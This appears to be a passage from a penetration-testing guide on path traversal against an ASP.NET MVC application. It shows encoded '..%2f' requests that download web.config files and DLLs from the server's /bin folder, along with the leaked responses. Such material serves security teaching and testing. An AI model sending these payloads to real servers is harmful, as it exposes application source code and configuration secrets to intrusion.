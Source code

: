 ```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
  <configSections>
    <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    <section name="pages" type="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    </sectionGroup>
  </configSections>
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" /><pages pageBaseType="System.Web.Mvc.WebViewPage">
  <namespaces>
    <add namespace="System.Web.Mvc" />
    <add namespace="System.Web.Mvc.Ajax" />
    <add namespace="System.Web.Mvc.Html" />
    <add namespace="System.Web.Optimization"/>
    <add namespace="System.Web.Routing" />
    <add namespace="WebApplication1" />
```

**Downloading DLLs**

From a very previous response, the declaration of a **custom namespace** (since other namespaces are defaults) suggests that a DLL called "**WebApplication1**" is present in the /bin directory.

```
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
Host: example-mvc-application.minded
[...]
```

From the previous output, inside the /bin directory you will also be able to find the Dlls

* System.Web.Mvc.dll
* System.Web.Mvc.Ajax.dll
* System.Web.Mvc.Html.dll
* System.Web.Optimization.dll
* System.Web.Routing.dll

Let's suppose that the previous DLL is importing a namespace called **WebApplication1.Areas.Minded.** an attacker can infer that other web.config files are present in the application, in guessable/default paths as **/area-name/Views/**, containing specific configurations that may refer to other DLL files present in the /bin folder.

```markup
GET /download_page?id=..%2f..%2fMinded/Views/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
<configSections>
  <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
```